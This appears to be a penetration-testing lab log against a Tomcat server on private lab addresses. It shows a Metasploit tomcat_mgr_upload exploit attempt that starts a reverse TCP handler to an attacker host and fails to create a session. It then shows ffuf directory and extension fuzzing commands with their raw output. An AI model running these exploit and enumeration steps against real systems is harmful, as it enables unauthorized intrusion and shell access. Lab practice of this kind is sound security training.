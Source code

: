 use multi/http/tomcat_mgr_upload
set RHOSTS 10.129.201.89
set LHOST 10.10.15.193
set RPORT 8080
check
[*] 10.129.201.89:8080 - Cannot reliably check exploitability.


[*] Started reverse TCP handler on 10.10.15.193:4444 
[*] Retrieving session ID and CSRF token...
[-] Exploit aborted due to failure: unknown: Unable to access the Tomcat Manager
[*] Exploit completed, but no session was created.


ffuf -w /opt/useful/SecLists/Discovery/Web-Content/web-extensions.txt:FUZZ -u http://10.129.201.89:8080/indexFUZZ > fuzz_extension.txt

cat fuzz_extension.txt 
.jsp                    [Status: 200, Size: 11436, Words: 4258, Lines: 203, Duration: 297ms]

http://10.129.201.89:8080/index.jsp

ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://10.129.201.89:8080/FUZZ.jsp -v > fuzz_page.txt
 
cat fuzz_page.txt | grep "Status: 200"


ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://10.129.201.89:8080/FUZZ -recursion -recursion-depth 1 -e .jsp -v > fuzz_recursive.txt


[2K[Status: 200, Size: 11436, Words: 4258, Lines: 203, Duration: 14ms][0m
[2K| URL | http://10.129.201.89:8080/index.jsp
[2K    * FUZZ: index.jsp

[2K[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 8ms][0m
[2K| URL | http://10.129.201.89:8080/docs
[2K| --> | http://10.129.201.89:8080/docs/
[2K    * FUZZ: docs

[2K[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 7ms][0m
[2K| URL | http://10.129.201.89:8080/examples
[2K| --> | http://10.129.201.89:8080/examples/
[2K    * FUZZ: examples

[2K[Status: 200, Size: 11436, Words: 4258, Lines: 203, Duration: 14ms][0m
[2K| URL | http://10.129.201.89:8080/
[2K    * FUZZ: 

[2K[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 16ms][0m
[2K| URL | http://10.129.201.89:8080/docs/images
[2K| --> | http://10.129.201.89:8080/docs/images/
[2K    * FUZZ: images

[2K[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 9ms][0m
[2K| URL | http://10.129.201.89:8080/docs/api
[2K| --> | http://10.129.201.89:8080/docs/api/
[2K    * FUZZ: api
